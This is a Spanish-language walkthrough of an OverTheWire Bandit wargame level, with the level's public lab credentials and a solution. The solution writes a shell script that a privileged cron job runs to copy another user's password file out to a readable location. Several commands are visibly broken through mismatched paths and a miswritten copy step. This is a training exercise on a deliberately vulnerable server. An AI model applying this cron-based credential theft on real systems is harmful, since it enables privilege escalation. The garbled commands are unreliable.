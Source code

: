 **Bandit **

**Objetivo**
Un programa se ejecuta automáticamente a intervalos regulares desde **cron** , el programador de trabajos basado en el tiempo. Busque en **/etc/cron.d/** la configuración y vea qué comando se está ejecutando.

**NOTA:** este nivel requiere que cree su propio primer script de shell. ¡Este es un paso muy grande y deberías estar orgulloso de ti mismo cuando superes este nivel!

**NOTA 2:** tenga en cuenta que su script de shell se elimina una vez que se ejecuta, por lo que es posible que desee conservar una copia...

**Datos de acceso**
server: **bandit.labs.overthewire.org** 
usuario: **bandit23**
contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
**Solucion**
```bash
ls -la /etc/cron.d
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.ssh 

mkdir /tem/sandiaEs
cd /temp/sandiaEs
echo "cat /etc/bandit_pass/bandit24 > /tmp/sandiaES/password" > sandiaEs.sh
chmod 777 sandiaEs.sh
touch password 
chmod 666 password
ls -lacp sandiaEs.sh /var/spool/bandit24/foo
date
date
ls -la
cat password
```
**Notas adicionales** 

**Referencias** 